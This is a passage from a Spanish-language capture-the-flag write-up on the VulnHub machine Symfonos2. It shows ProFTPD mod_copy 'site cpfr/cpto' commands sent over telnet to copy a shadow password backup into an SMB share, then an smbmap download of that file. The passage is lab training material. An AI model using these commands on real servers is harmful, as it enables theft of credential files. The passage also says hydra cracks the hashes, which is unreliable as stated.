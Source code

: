 ```bash
❯ telnet 10.11.12.27 21
Trying 10.11.12.27...
Connected to 10.11.12.27.
Escape character is '^]'.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.11.12.27]
site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/shadow.bak
250 Copy successful
```

Descargamos usando `smbmap`.

```bash
❯ smbmap -H 10.11.12.27 --download anonymous/shadow.bak
[+] Starting download: anonymous\shadow.bak (1173 bytes)
[+] File output to: /home/lvs3c/CTF/VulnHub/Symfonos2/10.11.12.27/scans/10.11.12.27-anonymous_shadow.b
```

![shadow](/assets/img/commons/vulnhub/symfonos2/shadow.png){: .center-image }


## Explotación

---

Procedemos a crackear los hashes con `hydra`, encontrando la clave del usuario `aeolus`.

